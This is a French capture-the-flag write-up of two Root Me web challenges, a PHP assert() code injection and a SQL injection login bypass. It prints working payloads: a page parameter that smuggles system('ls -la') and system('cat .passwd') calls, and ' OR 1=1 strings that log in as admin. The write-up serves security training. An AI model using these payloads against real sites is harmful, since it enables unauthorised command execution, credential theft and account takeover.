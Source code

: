 # DETECTION DE VULNÉRABILITÉS
##### Write UP - Root Me
##### tous les flags trouvé dans ses challenges seront tronquer
</br>
</br>

### Chall 1 : [PHP - assert()](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-assert)
----
</br>

![alt text](https://github.com/Ezeqielle/Vulnerabilite/blob/main/imgchall1/php-assert.png "PHP - assert()")
</br>

En se déplaçant sur le site on peut remarquer que les pages sont introduites par
> ?page=

donc on test des valeurs ramdom pour voir ce que cela nous retourne
> ?page='test'

ce qui va sans surprise nous retrouner une erreur:
> Parse error: syntax error, unexpected T_STRING in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: strpos('includes/'test'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8

A partir de la on sait qu'on peut faire executer du code grace a __?page=''__ donc le but dans un premier temps va être d'essayer de faire ressortir la liste des fichiers du répertoire. Pour ce faire on peut essayer d'utiliser la commande __system()__
> ?page='.system("ls -la").'

ce qui nous retourne la liste de tous les fichiers du répertoire courrant
```
total 32 
dr-xr-x--- 3 web-serveur-ch47 www-data 4096 Feb 27 2018 . 
drwxr-s--x 69 challenge www-data 4096 Feb 2 15:30 .. 
-r-------- 1 challenge challenge 90 Nov 20 2016 ._nginx.http-level.inc 
-r-------- 1 challenge challenge 727 Nov 20 2016 ._nginx.server-level.inc 
-r-------- 1 challenge challenge 218 Feb 27 2018 ._php53-fpm.pool.inc 
-r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 
drwxr-sr-x 2 web-serveur-ch47 www-data 4096 Feb 7 2018 includes 
-rw-r----- 1 web-serveur-ch47 www-data 811 Feb 19 2018 index.php 'includes/'.system("ls -la").'.php'File does not exist
```

De la on peut voir que le fichier qui nous interresse se trouve dans ce répertoire
> -r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 

donc on peut refaire la même manipulation mais en changeant un peut le contenue de __system()__
> ?page='.system("cat .passwd").'

ce qui nous permet d'avoir le retour suivant:
> The flag is / Le flag est : x4Ss[...]A1Lx Remember to sanitize all user input! / Pensez à valider toutes les entrées utilisateurs ! Don't use assert! / N'utilisez pas assert ! 'includes/'.system("cat .passwd").'.php'File does not exist

donc on a notre flague : __x4Ss[...]A1Lx__
</br>
</br>

### Chall 2 : [SQL injection - Authentification](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-authentification)
----
</br>

![alt text](https://github.com/Ezeqielle/Vulnerabilite/blob/main/imgchall2/sql-injection_auth.png "SQL injection - Authentification")
</br>

Le but de ce challenge comme son nom l'indique est d'exploiter une faille __SQL__ pour pouvoir s'autentifier en temps qu'admin sur le site.

Dans un premier temps nous nous retrouvons sur cette page
</br>

![alt text](https://github.com/Ezeqielle/Vulnerabilite/blob/main/imgchall2/sql-injection_auth_2.png "SQL injection - Authentification")
</br>

donc le but va être d'executer une requête __SQL__ dans un des champs afin de recupérer les logs admin.

Nous allons dans d'abord essayer de récupérer les logs de l'utilisateur n°1 en base de donnée. Pour cla on entre la requête suivante dans le champ __Login__ et on met un caractère (minimum) dans le champ __Password__ afin de ne pas le laisser vide.
> ' OR 1=1 /*

ce qui nous permet de nous log sur l'utilisateur 1
</br>

![alt text](https://github.com/Ezeqielle/Vulnerabilite/blob/main/imgchall2/sql-injection_auth_3.png "SQL injection - Authentification")
</br>

A partir de ce moment nous pouvons supposé que l'administrateur a une entrée nomée __admin__ en base de donnée donc nous executon la requête suivante afin de nous retourner les logs d'un potentiel utilisateur __ADMIN__
> ' OR 1=1 AND `username`='admin' /*

Cette requête s'avère être la bonne car nous avons pour retour à ce moment
</br>

![alt text](https://github.com/Ezeqielle/Vulnerabilite/blob/main/imgchall2/sql-injection_auth_4.png "SQL injection - Authentification")
</br>

Le mot de passe __admin__ est non lisible mais ce n'est rien il ne nous reste qu'a inspecter l'élément et de changer le __type=__ du champ password ce qui nous revèle le mot de passe de l'admin.

Le flag est donc : __t0[...]k!$__